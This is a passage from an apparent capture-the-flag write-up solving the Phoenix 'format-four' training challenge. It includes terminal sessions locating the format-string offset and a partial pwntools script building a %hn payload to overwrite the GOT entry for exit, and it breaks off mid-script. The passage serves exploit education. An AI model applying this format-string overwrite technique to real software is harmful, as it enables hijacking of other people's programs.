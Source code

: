 So, the string is stored at offset `+0x30` (+6 bytes) from the stack pointer. Therefore, we should find our string as the 12th argument. Lets check :

```
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four 
Welcome to phoenix/format-four, brought to you by https://exploit.education
%12$016x
user@phoenix-amd64:/opt/phoenix/amd64$ 
```

Well, we did not get any output. That's why pwntools crashed... Sometimes, and I'm not sure why, format strings using a number to specify the chosen argument do not work. So, we are going to rely solely on simple `%x` and `%hn` strings.

## Manual solution

First, let's check the string offset :

```
user@phoenix-amd64:/opt/phoenix/amd64$ ./format-four 
Welcome to phoenix/format-four, brought to you by https://exploit.education
%x%x%x%x%x%x%x%x%x%x%x---%x
f7ffdc0cf7ffb300f7dc2617000ffffd6b0ffffe6b04006b5ffffe7080---78257825
```

Ok, its working (`0x78257825` is `%x$x` in little endian). Now let's start writing our exploit. First, we need the address of `congratulations` :

```
user@phoenix-amd64:~$ readelf -s /opt/phoenix/amd64/format-four 
[...]
58: 0000000000400644    24 FUNC    GLOBAL DEFAULT    8 congratulations
```

Now, the problem is that we need to overwrite the whole content of the GOT entry corresponding to `exit`. To do so, we can't just write `0x400644` characters to stdout, because 1) it would be very long and 2) we would write only on a word (4 bytes), not the whole 64-bit address (only the lower half). This means we need to overwrite 4 separate chunks of 2 bytes each. To achieve this, we use the following trick : since we write 2 bytes at the time, and since `0x10000 = 0 (mod 16 bits)`, once we have written `0x644` characters to stdout to write to the LSB, we can write `0x10000-0x644` chars to loop back to zero.

```
from pwn import *
from math import log

exit_got_addr = 0x6009f0
congratulations_addr = 0x400644
offset_param = 12

# Focus only on lower half, upper half is null
p0 = congratulations_addr & 0xffff
p1 = (congratulations_addr >> 16) & 0xffff

# Padding : start padded
payload = "%08x" * (offset_param-1)
payload += "%08x" * 11 # 44 first bytes in the stack are useless bc of the previous line, we read 11 more qwords. Total 88 bytes read and entered
len_pad = (offset_param-1+11)*8

# Middle of the payload : overwrite correct numbers
middle = "%{}x".format(p0 - len_pad)
middle += "%hn"
middle += "%{}x".format(0x10000 - p0 + p1) # Use overflow and the fact that for halfwords, 0x10000 = 0 (2 bytes)
middle += "%hn"
middle += "%{}x".format(0x10000 - p1) # We want to write 0x0000
middle += "%hn"
```